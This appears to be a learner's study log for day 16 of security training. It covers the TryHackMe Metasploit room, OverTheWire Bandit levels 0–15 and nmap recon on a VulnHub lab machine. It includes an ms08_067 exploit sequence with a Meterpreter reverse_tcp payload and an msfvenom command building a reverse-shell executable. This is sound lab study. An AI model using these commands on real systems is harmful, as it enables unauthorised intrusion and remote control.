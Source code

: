# 🚀 Day 16: Metasploit | Bandit (0–15) | VulnHub Scriptkiddie

---

## 📌 Overview
Day 16 was a packed day of learning and practice across three platforms:  

1. **TryHackMe Metasploit Room** — Focused on scanning, exploitation, Metasploit database, msfvenom payloads.  
2. **OverTheWire Bandit (levels 0 → 15)** — Strengthened Linux fundamentals through practical challenges.  
3. **VulnHub: Funbox Scriptkiddie** — Beginner-friendly CTF-style machine, performed initial recon and setup.  

---

## 🔹 TryHackMe — Metasploit Room

### Key Topics
- Scanning targets with Metasploit  
- Using the Metasploit database (`msfdb`)  
- Conducting vulnerability scans  
- Exploiting vulnerable services  
- Generating payloads with `msfvenom`  
- Obtaining a Meterpreter session  

### Important Commands
```bash
# Start and initialize the Metasploit database
msfdb init

# Launch Metasploit
msfconsole

# Database-related commands
db_status
workspace -a tryhackme_lab
hosts
services

# Scan target host
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip>
set PORTS 1-1000
run

# Example exploit usage
search ms08_067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run

# Generate payload with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > shell.exe
---

###🔹 OverTheWire — Bandit (Level 0 → 15)
Focus Areas
SSH basics
File permissions
Hidden files & directories
Encodings (base64, hex, gzip, bzip2)
Cron jobs
Password retrieval logic
Important Commands
# SSH into Bandit
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Find hidden files
ls -la

# View file contents
cat <filename>

# Read the first line
head -n 1 <filename>

# Read the last line
tail -n 1 <filename>

# Base64 decode
cat data.txt | base64 -d

# Hex dump & reverse
xxd -r file.hex > file.out

# Search by permissions
find / -user bandit7 -group bandit6 -size 33c 2>/dev/null

# Connect via nc
nc <host> <port>

🔹 VulnHub — Funbox: Scriptkiddie
Setup
Downloaded & imported Funbox11.ova
Added entry to /etc/hosts:
funbox11  <target_ip>

Initial Recon
# Host discovery
nmap -sn <target_network>/24

# Full port scan
nmap -p- -T4 <target_ip>

# Service and version detection
nmap -sV -sC -p <ports> <target_ip>

# Add entry for convenience
echo "<target_ip> funbox11" | sudo tee -a /etc/hosts

🔑 Key Takeaways

Metasploit is more than just an exploitation tool — its database & msfvenom features make it a full pentest framework.
Bandit reinforces Linux fundamentals that are critical in real-world scenarios.
VulnHub challenges simulate attacker workflows and build applied experience.
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 14-49-24" src="https://github.com/user-attachments/assets/011b7e2b-9d9b-4540-8e3a-b2070c93229e" />
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 19-50-06" src="https://github.com/user-attachments/assets/c0c080de-fe2d-4a44-b07e-df4a64d770a8" />
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 21-33-34" src="https://github.com/user-attachments/assets/32246813-1829-454c-9580-eee074bb433f" />
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 19-50-46" src="https://github.com/user-attachments/assets/4aabca73-9b35-4310-9f56-ecf8a11ee4f8" />


